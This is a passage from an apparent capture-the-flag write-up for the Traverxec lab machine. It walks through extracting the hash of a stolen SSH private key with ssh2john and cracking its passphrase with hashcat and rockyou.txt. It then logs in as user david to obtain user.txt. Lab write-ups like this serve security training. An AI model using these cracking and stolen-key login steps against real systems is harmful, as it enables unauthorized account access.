 However, using this key asks for a password? Try to extract and crack the hash:

- Hash starts with `$sshng$1$16$`, which matches hashcat module 22931
- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
$(find / -iname ssh2john.py 2>/dev/null) ./.ssh/id_rsa | cut -d ':' -f2 > ssh.hash
hashcat -m 22931 -a 0 --quiet --potfile-disable ssh.hash rockyou.txt
```

This returns the following error:

```
/usr/share/hashcat/modules/module_22931.so: cannot open shared object file: No such file or directory
```

Build hashcat from source:

```bash
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
./hashcat -m 22931 -a 0 --quiet --potfile-disable ../ssh.hash ../rockyou.txt
```

And this has a hit:

![hash1](./traverxec/hash1.png)

Now connect to the target as `david` with the SSH key password of `hunter`:

```bash
ssh -i ./.ssh/id_rsa david@10.10.10.165 # hunter
```

And this gives `user.txt`:

![user6](./traverxec/user6.png)
